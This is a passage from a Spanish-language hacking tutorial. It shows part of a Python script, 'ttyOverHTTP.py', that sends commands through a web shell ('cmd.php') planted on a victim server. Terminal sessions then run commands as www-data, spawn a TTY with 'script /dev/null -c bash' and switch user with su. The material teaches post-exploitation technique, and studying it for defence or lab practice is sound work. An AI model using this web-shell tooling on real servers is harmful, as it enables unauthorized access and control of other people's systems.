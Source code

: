 ```python
SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
	print("\n\n[*] Exiting...\n")
	print("[*] Removing files...\n")
	RunCmd(erasestdin)
	RunCmd(erasestdout)
	print("[*] All files have been deleted\n")
	sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
	cmd = input("> ")
	WriteCmd(cmd + "\n")
	time.sleep(1.1)
```

* **Importante**: En este caso estamos tirando contra la `127.0.0.1` suponiendo que el fichero se llama `cmd.php`, en vuestro caso lo tendréis que cambiar a lo que os toque.

Entonces bien, imaginad que ya tenéis un archivo `cmd.php` alojado en el servidor víctima, pues mirad que sencillo:

```go
┌─[flippermen@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami
www-data
> pwd
/var/www/html
> cd /home
> pwd
/home
> ls -l
total 0
drwxr-xr-x 1 flippermen flippermen 1156 Feb  4 12:19 flippermen
```

Ya directamente se gestiona desde el script la sesión, pudiendo así ver los outputs de los comandos que especifiquemos desde `input`. 

El procedimiento ahora para obtener una TTY y proseguir naturalmente sería el mismo que os mostré anteriormente:

```go
┌─[flippermen@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami                  
www-data
> script /dev/null -c bash
Script started, file is /dev/null
www-data@parrot:/var/www/html$
> su flippermen
su flippermen
Password:
> ************* # Aquí va vuestra contraseña

░▒▓    /var/w/html  ✔ ▓▒░                                                  
> bash
bash
┌──[flippermen@parrot]─[/var/www/html]
└──╼ $
> whoami
```